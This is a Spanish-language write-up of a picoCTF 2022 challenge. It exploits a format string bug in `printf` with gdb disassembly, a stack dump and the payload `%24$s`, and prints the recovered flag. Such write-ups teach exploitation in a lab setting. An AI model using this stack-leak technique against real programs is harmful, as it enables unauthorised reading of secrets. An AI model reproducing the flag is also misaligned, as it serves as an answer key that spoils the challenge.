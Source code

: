 ## Descripción
Story telling class 1/2 I'm just copying and pasting with this program. What can go wrong? You can view source here. And connect with it using: nc saturn.picoctf.net 63867

## Pistas
- Format Strings

## Solución
- Para resolver el siguiente codigo, analizando el codigo podemos ver que tenemos una [vulnerabilidad de cadena de formato](https://resources.infosecinstitute.com/topic/how-to-exploit-format-string-vulnerabilities/) en `vuln` la función llamando a . `printf(story)`. Usando eso, podemos filtrar la cadena de la bandera de la pila.
- Primero, encontremos cuál es la ubicación en la pila del `flag`búfer usando `gdb`:

```bash()
(gdb) disassemble vuln
Dump of assembler code for function vuln:
   0x08049333 <+0>:     endbr32
   0x08049337 <+4>:     push   %ebp
   0x08049338 <+5>:     mov    %esp,%ebp
   0x0804933a <+7>:     push   %ebx
   0x0804933b <+8>:     sub    $0xc4,%esp
   0x08049341 <+14>:    call   0x80491f0 <__x86.get_pc_thunk.bx>
   0x08049346 <+19>:    add    $0x2cba,%ebx
   0x0804934c <+25>:    sub    $0x8,%esp
   0x0804934f <+28>:    push   $0x40
   0x08049351 <+30>:    lea    -0x48(%ebp),%eax
   0x08049354 <+33>:    push   %eax
   0x08049355 <+34>:    call   0x80492b6 <readflag>
   0x0804935a <+39>:    add    $0x10,%esp
   0x0804935d <+42>:    sub    $0xc,%esp
   0x08049360 <+45>:    lea    -0x1f9c(%ebx),%eax
   0x08049366 <+51>:    push   %eax
   0x08049367 <+52>:    call   0x80490f0 <printf@plt>
   0x0804936c <+57>:    add    $0x10,%esp
   0x0804936f <+60>:    sub    $0x8,%esp
   0x08049372 <+63>:    lea    -0xc8(%ebp),%eax
   0x08049378 <+69>:    push   %eax
   0x08049379 <+70>:    lea    -0x1f6d(%ebx),%eax
   0x0804937f <+76>:    push   %eax
   0x08049380 <+77>:    call   0x8049180 <__isoc99_scanf@plt>
   0x08049385 <+82>:    add    $0x10,%esp
   0x08049388 <+85>:    sub    $0xc,%esp
   0x0804938b <+88>:    lea    -0x1f67(%ebx),%eax
   0x08049391 <+94>:    push   %eax
   0x08049392 <+95>:    call   0x8049120 <puts@plt>
   0x08049397 <+100>:   add    $0x10,%esp
   0x0804939a <+103>:   sub    $0xc,%esp
   0x0804939d <+106>:   lea    -0xc8(%ebp),%eax
   0x080493a3 <+112>:   push   %eax
   0x080493a4 <+113>:   call   0x80490f0 <printf@plt>
   0x080493a9 <+118>:   add    $0x10,%esp
   0x080493ac <+121>:   sub    $0xc,%esp
   0x080493af <+124>:   push   $0xa
   0x080493b1 <+126>:   call   0x8049170 <putchar@plt>
   0x080493b6 <+131>:   add    $0x10,%esp
   0x080493b9 <+134>:   nop
   0x080493ba <+135>:   mov    -0x4(%ebp),%ebx
   0x080493bd <+138>:   leave
   0x080493be <+139>:   ret
End of assembler dump.
```

- Establecemos un punto de interrupción justo después de `readflag`la función. Veamos la pila en este punto:

```bash()
(gdb) r
Starting program: /pictoctf2022/binary_exploitation/flag_leak/vuln 

Breakpoint 2, 0x0804935a in vuln ()

─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcfa0│+0x0000: 0xffffd030  →  "sdfs\n"  ← $esp
0xffffcfa4│+0x0004: 0x00000040 ("@"?)
0xffffcfa8│+0x0008: 0xf7dc78e8  →  0x00000000
0xffffcfac│+0x000c: 0x08049346  →  <vuln+19> add ebx, 0x2cba
0xffffcfb0│+0x0010: 0xf7dd0ee8  →  0x00002ed0
0xffffcfb4│+0x0014: 0xffffffff
0xffffcfb8│+0x0018: 0xffffcfe0  →  0xf7fa5d20  →  0xfbad2087
0xffffcfbc│+0x001c: 0xf7dcc8a8  →  0x00002f07
```

- Podemos ver que necesitamos filtrar el lugar 24 (0x0018) en la pila. Podemos hacerlo usando `%24$s`la carga útil:

```bash()
nc saturn.picoctf.net 58009
Tell me a story and then I'll tell you one >> %24$s
Here's a story - 
picoCTF{L34k1ng_Fl4g_0ff_St4ck_5e16d521}
```

la flag es:

```bash()
picoCTF{L34k1ng_Fl4g_0ff_St4ck_5e16d521}
```

## Notas adicionales
- Hay que leer cudadosamente el lenguaje ensamblador, para mi como principiante en este lenguaje, se me hace un poco confuso.

## Referencias
- [Redacción original](https://github.com/evyatar9/Writeups/tree/master/CTFs/2022-picoCTF2022/Binary_Exploitation/300-flag_leak)
